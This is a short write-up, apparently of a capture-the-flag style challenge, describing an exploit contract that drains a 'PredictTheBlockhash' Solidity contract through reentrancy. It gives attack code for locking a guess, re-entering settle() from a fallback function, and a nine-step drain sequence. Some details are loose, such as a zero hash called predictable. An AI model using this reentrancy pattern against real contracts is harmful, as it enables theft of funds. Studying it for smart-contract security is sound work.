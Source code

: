 ### Attack Contract: `ExploitContract`

The exploit contract uses the following strategy:

#### 1. Attack Initialization
```solidity
function attack() external {
    // Lock in a guess (we'll use a predictable hash)
    bytes32 predictableHash = bytes32(0); // We'll predict this
    predictTheBlockhash.lockInGuess{value: 1 ether}(predictableHash);
}
```

#### 2. Reentrancy Execution
```solidity
function settle() external {
    require(!attacking, "Attack already in progress");
    attacking = true;
    attackCount = 0;
    
    // Call settle which will trigger our fallback function
    predictTheBlockhash.settle();
    
    attacking = false;
}
```

#### 3. Reentrancy Logic
```solidity
fallback() external payable {
    if (attacking && attackCount < maxAttacks) {
        attackCount++;
        
        // Check if we can still call settle (guesser hasn't been reset yet)
        try predictTheBlockhash.settle() {
            // If successful, this will trigger another fallback call
        } catch {
            // If it fails, we stop the attack
        }
    }
}
```

## Attack Flow

1. **Attacker calls `lockInGuess()`** with 1 ETH and a predicted hash
2. **Attacker calls `settle()`** to start the attack
3. **PredictTheBlockhash checks conditions**: `msg.sender == guesser` ✓
4. **PredictTheBlockhash transfers 2 ETH** to attacker
5. **Attacker's `fallback()` is triggered** during the ETH transfer
6. **Attacker re-enters `settle()`** before `guesser` is reset
7. **PredictTheBlockhash checks again**: `msg.sender == guesser` ✓ (still old value!)
8. **PredictTheBlockhash transfers another 2 ETH**
9. **Process repeats** until contract is drained or attack limit reached
